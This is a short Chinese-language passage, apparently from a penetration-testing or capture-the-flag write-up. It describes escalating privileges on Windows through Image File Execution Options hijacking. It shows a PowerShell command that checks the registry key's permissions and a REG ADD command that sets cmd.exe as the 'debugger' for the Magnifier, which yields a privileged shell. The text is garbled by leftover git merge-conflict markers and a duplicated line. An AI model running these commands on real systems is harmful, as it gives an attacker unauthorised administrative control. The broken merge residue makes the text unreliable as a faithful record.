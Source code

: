根据之前的提示映像劫持提权

```plain
=======
[![](assets/1710465355-5f0d116d17eaae9eddb2dfc1109c946b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240314095508-e2799334-e1a5-1.png)

根据之前的提示映像劫持提权

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
get-acl -path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" | fl *
```

发现 NT AUTHORITY\\Authenticated Users 可以修改注册表  
即所有账号密码登录的用户都可以修改注册表，利用这个性质，修改注册表，使用放大镜进行提权！  
<<<<<<< HEAD
[![](assets/1710898702-3c03514f743f6d21a5690337c202d048.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240314095515-e6ba72ec-e1a5-1.png)

修改注册表映像劫持，将放大镜劫持为 cmd

```plain
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
```
